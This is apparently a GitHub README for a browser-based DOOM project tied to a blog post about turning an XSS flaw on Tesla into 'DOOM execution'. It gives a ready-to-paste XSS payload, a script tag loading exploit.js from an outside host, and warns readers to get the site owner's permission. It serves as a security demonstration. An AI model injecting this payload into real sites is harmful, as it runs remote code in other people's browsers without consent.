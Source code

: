 ## DOOM XSS

This project allows you to play DOOM in the browser. Here is [a silly blog post](https://labs.detectify.com/2017/07/27/how-we-invented-the-tesla-dom-doom-xss/) explaining how an XSS vulnerability could be used to achieve "DOOM execution" on Tesla.

### Demo

To demonstrate how this works, follow [this link to GitHub pages](https://almroot.github.io/doom/), or [this link to doom.pwn.life](https://doom.pwn.life/).

### XSS

If you ever want to demonstrate the possibilities of a XSS vulnerability (as shown in the blog post), you may make an inclusion of [exploit.js](https://almroot.github.io/doom/exploit.js) like so: `<script src='https://almroot.github.io/doom/exploit.js'></script>`. Please note that I take no responsibilities for your actions, make sure you have permissions from the website owner(s) before doing anything stupid.
